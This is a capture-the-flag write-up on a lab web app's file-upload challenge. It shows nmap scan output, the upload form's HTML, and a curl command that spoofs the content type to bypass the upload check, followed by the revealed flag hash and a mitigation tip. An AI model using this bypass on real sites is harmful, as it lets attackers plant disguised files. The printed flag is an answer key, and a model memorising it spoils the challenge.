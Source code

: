 # <span style="text-decoration: underline"> File Upload </span>

- Tags : `file` , `image` , `upload`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : orange">Medium</span>
___


## <span style="text-decoration: underline">problem</span>

During our `nmap` scans from other challenges we found out that there exists different pages

```bash
$ sudo nmap -q --script=http-csrf   192.168.1.23

Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-25 21:17 CEST
Nmap scan report for 192.168.1.23
Host is up (0.00018s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.1.23
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.1.23:80/?page=signin
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=upload
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=member
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=searchimg
|     Form id: 
|_    Form action: #
4242/tcp open  vrml-multi-use
MAC Address: 08:00:27:CD:44:94 (Oracle VirtualBox virtual NIC)
```

> For this write we will be intereseted on `http://192.168.1.23:80/?page=upload`

i> We can also access this page using the `ADD IMAGE` button from the **home page**

When we visit the **upload** page (http://192.168.1.23:80/?page=upload), we can see there is a `brows` button and there is a `UPLOAD` button. On top of all the button it says **Choose an image to upload**. From this we can guess that we have to upload an **image** file.

When we try to upload a `png` image file it shows the following message **`Your image was not uploaded.`**. It didn't work for us. When we change the extention from `png` to `jpeg` and try to upload again it shos the following message **`/tmp/img.jpeg succesfully uploaded.`**. It seems like the server do not verify the content of the file when we upload them but it verifies the extention. To prouve our theory we create an empty file and give it the name `any.jpeg` and try to upload it. It gives us the following message **`/tmp/any.jpeg succesfully uploaded.`**.

> This is is typically the situation for website that shows the raw image that you upload them. In many occasion in the old days we could find website that let you upload images and you could see those images using the url of the image in `raw` format. By `raw` i mean it is not treated or modified nor it is shown using a program. it is shows directly from the uploaded directory. In this kind of situation hackers used to upload `php` scripts (because most of those sites ware made using `php` programs) and as the name of the file was not modified, to execute the uploaded `php` scripts only by eccessing the url.

> In our case it seems like the extention of the file has to be `jpeg` or `jpg` to upload it through the means they have given us.

When we inspect the `form` for upload we find the following `html` code
```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```
Where we see that the form uses the following fields do the `POST` request

|Key|Value|
|---|-----|
|MAX_FILE_SIZE|100000|
|uploaded| [Our "image" file that we want to upload]|
|Upload|Upload|

> Sadly we can not modify the `input` type to `image` so that we can **try** to fool the server to think the uploaded element is an image

## <span style="text-decoration: underline">Solution</span>

Using curl we can easily upload a file with a the `type` name we want. Here is our command to do that

```bash
url -s -F "uploaded=@img.png;type=image/jpeg" -F Upload=Upload "http://192.168.1.23/?page=upload" | grep flag
```

|Option|Description|
|--|--|
|`-s` | Silent|
|`-F`|( — form) option, which will add `enctype=”multipart/form-data”` to the request.|

this gives us the following result

```bash
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/img.png succesfully uploaded.</pre>
```

> We use the `;type=image/jpeg` to tell the server that this has a file type of an `image` 
> After some playing arround we can see that the `MAX_FILE_SIZE` parameter is not needed.

# How to avoid the problem
This kind of problem could be evoided by not only checking the file `extention` but also by checking the type of file by looking inside the file's content.


# Flag

```text
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```


# Resources
- [Upload files with CURL](https://medium.com/@petehouston/upload-files-with-curl-93064dcccc76)
- [File type using CURL](https://stackoverflow.com/a/4074949/4440716)
- [Send a file via POST with cURL and PHP](https://blog.derakkilgo.com/2009/06/07/send-a-file-via-post-with-curl-and-php/)